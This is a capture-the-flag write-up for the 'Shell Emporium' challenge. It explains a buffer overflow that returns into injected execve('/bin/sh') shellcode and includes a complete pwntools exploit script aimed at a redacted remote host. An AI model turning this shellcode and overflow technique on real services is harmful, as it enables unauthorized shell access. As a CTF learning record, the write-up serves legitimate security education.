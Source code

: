 # Write up for Shell Emporium

## Overview

For this challenge we are doing some shellcode. We have an application that gives us two text buffers to input seashell order details.

## Solution

### Flag 1

Our goal is to give ourselves a shell to control their server (as opposed to the physical shells they're selling).
To do so, we use the two inputs they give us. In the first one we put ```/bin/sh\x00``` and our shell code assembly to 
run the syscall ```execve``` on ```/bin/sh\x00``` to give ourselves a shell. We can do this, as the program gives us the address of the first buffer,
allowing us to refence where the string /bin/sh is. In the second buffer, we do a buffer overflow
to return to the address where the shellcode assembly is. For this, we can simply send the address of the shellcode assmebly
multiple times until it overflows to it. After we get our shell, we run ```ls``` to find the file ```flag.txt```, which we can 
then read with ```cat flag.txt```. Thereby giving us the flag!

The code below implements this

```
#!/usr/bin/env python3

from pwn import *

context.terminal = ['tmux', 'splitw', '-h']
context.update(arch="i386", os="linux")

p = remote("REDACTED", REDACTED)
# p = process("./shell_emporium")

print(p.recvuntil(b'IGNORE: '))
addr1 = p.recvline().split(b"\n")[0]
addr1 = int(addr1, 16)
print(p.recv())
p.sendline(b"2")
print(p.recv())


shellcode = asm(
f'''
mov eax, 0xB
mov ebx, {addr1}
xor ecx, ecx
xor edx, edx
int 0x80
''')

p.send(b"/bin/sh\x00")
p.sendline(shellcode)
print(p.recv())
addr2 = p32(addr1+8)
p.sendline(20*addr2)


p.interactive()
```
